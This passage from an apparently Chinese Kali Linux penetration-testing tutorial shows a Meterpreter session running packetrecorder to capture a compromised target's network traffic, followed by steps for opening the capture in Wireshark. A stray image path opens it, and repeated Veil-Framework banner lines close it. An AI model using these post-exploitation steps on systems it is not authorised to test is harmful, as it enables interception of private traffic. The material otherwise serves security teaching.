 从输出的信息中，可以看到只有一个网络接口。

（4）指定捕获接口开始捕获数据，并将捕获的文件保存到桌面上。执行命令如下所示：

```
meterpreter > run packetrecorder -i 1 -l /root/Desktop
[*] Starting Packet capture on interface 1
[+] Packet capture started
[*] Packets being saved in to /root/Desktop/logs/packetrecorder/ AA-886OKJM26FSW_ 20140717.2700/AA-886OKJM26FSW_20140717.5608.cap
[*] Packet capture interval is 30 Seconds
……
^C
[*] Interrupt
[+] Stopping Packet sniffer… 
```

执行以上命令后，将开始捕获目标主机的数据。捕获的文件将会保存到指定位置的一个 logs 目录中。以上捕获过程不会自动停止，如果要停止，则按下 Ctrl+C 组合键。

在 Metasploit 中捕获的数据包，可以使用 Wireshark 工具打开并进行分析。在 Kali Linux 中，默认已经安装了 Wireshark 工具。

【实例 6-3】下面演示使用 Wireshark 工具，打开捕获的文件。具体操作步骤如下所示。

（1）启动 Wireshark，使它在后台运行。执行命令如下所示：

```
root@kali:~# wireshark & 
```

或者在图形界面依次选择“应用程序”|Kali Linux|Top 10 Security Tools|wireshark 命令，将显示如图 6.16 所示的界面。

![191-01](img/00304.jpg)

图 6.16 警告信息

（2）该界面显示的警告信息是因为当前使用超级用户运行该程序的。此时单击“确定”按钮，将显示如图 6.17 所示的界面。

![192-01](img/00305.jpg)


 [Web]: https://www.veil-framework.com | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework